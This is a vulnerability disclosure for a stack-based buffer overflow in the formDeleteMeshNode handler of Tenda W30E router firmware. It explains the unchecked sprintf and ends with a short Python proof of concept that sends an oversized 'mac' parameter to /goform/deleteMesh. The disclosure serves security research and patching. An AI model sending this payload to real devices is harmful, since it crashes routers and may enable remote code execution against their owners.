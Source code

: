 # Tenda W30E formDeleteMeshNode
### Overview
vendor: Tenda

product: W30E

version: <= V16.01.0.19(5037)

type: Stack Overflow

Firmware download address ： https://www.tenda.com.cn/material/show/648432375324741
### Vulnerability Description
Tenda W30E V16.01.0.19(5037) were discovered to contain a stack overflow in the formDeleteMeshNode function.
### Vulnerability details
Stack-based buffer overflow in function formDeleteMeshNode on Tenda W30E before V16.01.0.19(5037) devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function formDeleteMeshNode line 39, it reads in a user-provided parameter, and the variable String is passed to the sprintf function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/formDeleteMeshNode-1.png)
![](images/formDeleteMeshNode-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/deleteMesh'
payload = {
    "mac": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
